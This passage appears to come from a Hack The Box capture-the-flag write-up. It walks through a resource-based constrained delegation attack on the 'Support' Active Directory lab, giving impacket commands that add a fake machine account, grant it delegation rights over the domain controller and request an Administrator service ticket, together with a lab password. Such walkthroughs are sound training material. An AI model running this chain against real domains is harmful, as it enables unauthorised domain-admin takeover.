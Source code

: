 ![abuse info](Thu-11-2024_12-40.png)

For this attack, I need to add a fake computer to the domain that's under my control. Then I can act as the DC and request Kerberos tickets for this computer, which will give me the ability to impersonate other accounts, like Administrator. I need an authenticated user who can add machine's to the domain. By default, every user can add up to 10. I also need write privileges over a domain computer, that's where the `GernicAll` privilege comes in.

The first thing I need to do is add a "fake" computer to the domain, which I can do with impacket's `addcomputer` module.
```bash
┌──(kali㉿Kali)──[12:34:27]──[~/htb/Machines/Support/www]
└─$ impacket-addcomputer -computer-name 'badcomp$' -computer-pass 'password' -dc-host support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account badcomp$ with password password.

```
I now need to configure the DC so that my fake computer can write to it, which I'll do with `impacket-rbcd`.
```bash
┌──(kali㉿Kali)──[12:35:14]──[~/htb/Machines/Support/www]
└─$ impacket-rbcd -delegate-from 'badcomp$' -delegate-to 'DC$' -action 'write' -dc-ip support.htb 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] badcomp$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     badcomp$     (S-1-5-21-1677581083-3380853377-188903654-6102)

```
And then I need to request a service ticket for Administrator.
```bash
┌──(kali㉿Kali)──[12:35:53]──[~/htb/Machines/Support/www]
└─$ impacket-getST -spn 'http/dc.support.htb' -impersonate 'Administrator' -dc-ip support.htb 'support.htb/badcomp:password'
Impacket v0.11.0 - Copyright 2023 Fortra
```